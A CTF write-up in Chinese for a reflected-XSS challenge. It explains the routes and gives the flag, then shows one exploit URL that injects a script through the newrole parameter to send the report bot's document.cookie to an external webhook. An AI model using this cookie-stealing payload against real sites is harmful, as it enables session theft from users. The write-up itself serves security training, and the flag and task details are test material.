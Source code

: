 # Description
有小黑子???速速请求律师发送律师函

# Difficulty
⭐⭐⭐⭐

# Flag
`mayctf{St4rt_Y0ur_XSS_j0urn3y}`

# Platform (Optional)
ARCH

# Hint (Optional)
XSS

# WriteUp
## 后端api
 - `/`
 - `/changerole` 
 - `/report`

## 前端xss
访问 `/` 时会设置`cookie: role=ikun`，role的值会原样显示在前端，因此可以通过设置`role`的值来触发反射型xss

但是，要注意这里的xss受害只是你当前的浏览器，即你所发送的恶意js脚本是由你的浏览器执行，此时只能达到我打我自己的效果

## 攻击xssbot
本题的xssbot为`/report`接口，它相当于受你控制的一个浏览器，会访问你给出的链接，那这应该怎么利用？

这时我们就需要用到另一个接口`/changerole`，这个接口可以通过`GET`型参数来设置cookie。这时我们就可以通过设置带有xsspayload的`newrole`参数来攻击`/report`这个浏览器，通过xsspayload将`/report`浏览器的cookie作为参数值发送到你的服务器，或者一些可以用来接受外带信息的公用服务器，这里使用`https://webhook`

## exp
```js
url=http://localhost:9988/changerole?newrole=<script>location=`https://webhook/?f=`%252BencodeURIComponent(document.cookie)</script>
```

注意这里加号进行了两次url编码
